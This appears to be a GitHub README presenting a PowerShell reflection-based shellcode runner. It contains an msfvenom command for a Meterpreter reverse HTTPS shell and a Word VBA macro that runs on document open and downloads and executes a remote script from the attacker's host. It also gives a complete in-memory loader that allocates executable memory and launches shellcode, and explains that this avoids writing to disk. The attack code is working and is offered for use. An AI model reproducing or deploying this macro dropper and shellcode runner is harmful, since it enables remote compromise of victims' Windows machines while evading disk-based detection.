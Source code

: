 # PowerShell-Reflection-Shellcode-Runner

Payload generation

  	msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
  
 our Microsoft Office 2016 version of Word is a 32-bit process, which means that PowerShell will also launch as a 32-bit process.

VBA code calling the PowerShell cradle that executes the shellcode runner

                    Sub MyMacro()
                      Dim str As String
                      str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<kali ip>/run.ps1') | IEX"
                      Shell str, vbHide
                    End Sub
                  
                    Sub Document_Open()
                      MyMacro
                    End Sub
                  
                    Sub AutoOpen()
                      MyMacro
                    End Sub

we can also try and use .txt extension 

Complete PowerShell script for in-memory shellcode runner

		function LookupFunc {
		
			Param ($moduleName, $functionName)
		
			$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
		    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
		      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
		    $tmp=@()
		    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
			return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
		}
		
		function getDelegateType {
		
			Param (
				[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
				[Parameter(Position = 1)] [Type] $delType = [Void]
			)
		
			$type = [AppDomain]::CurrentDomain.
		    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
		    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
		      DefineDynamicModule('InMemoryModule', $false).
		      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
		      [System.MulticastDelegate])
		
		  $type.
		    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
		      SetImplementationFlags('Runtime, Managed')
		
		  $type.
		    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
		      SetImplementationFlags('Runtime, Managed')
		
			return $type.CreateType()
		}
		
		$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
		
		[Byte[]] $buf = generated shell code
		
		[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
		
		$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) 	
  			([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
		
		[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
  

  It executed three primary steps related to the Win32 APIs. It located the function, specified argument data types, and invoked the function.
  There are two primary ways to locate functions in unmanaged dynamic link libraries. Our original technique relied on the Add-Type and DllImport keywords (or the Declare keyword in VBA). However, Add-Type calls the csc compiler, which writes to disk. 
  We must avoid this if we want to operate completely in-memory.

  Alternatively, Here we used a technique known as dynamic lookup, which is commonly used by low-level languages like C. By taking this path, we hope to create the .NET assembly in memory instead of writing code and compiling it.

  To perform a dynamic lookup of function addresses, the operating system provides two special Win32 APIs called GetModuleHandle and GetProcAddress
  GetModuleHandle obtains a handle to the specified DLL, which is actually the memory address of the DLL. To find the address of a specific function, we'll pass the DLL handle and the function name to GetProcAddress, which will return the function 
  address. We can use these functions to locate any API, but we must invoke them without using Add-Type.

  Since we cannot create any new assemblies, we'll try to locate existing assemblies that we can reuse. It stands to reason that we could search the preloaded assemblies for the presence of GetModuleHandle and GetProcAddress.
  However, there is an issue that these methods are only meant to be used internally by the .NET code. This blocks us from calling them directly from PowerShell or C#.
  To solve this issue, we have to develop a way that allows us to call it indirectly.

  The first step is to obtain a reference to these functions. To do that, we must first obtain a reference to the System.dll assembly using the GetType method.This reference to the System.dll assembly will allow us to subsequently locate the 
  GetModuleHandle and GetProcAddress methods inside it.

  Using GetType to obtain a reference to the System.dll assembly at runtime is an example of the Reflection technique. This is a very powerful feature that allows us to dynamically obtain references to objects that are otherwise private or internal.

  
  
		
		  
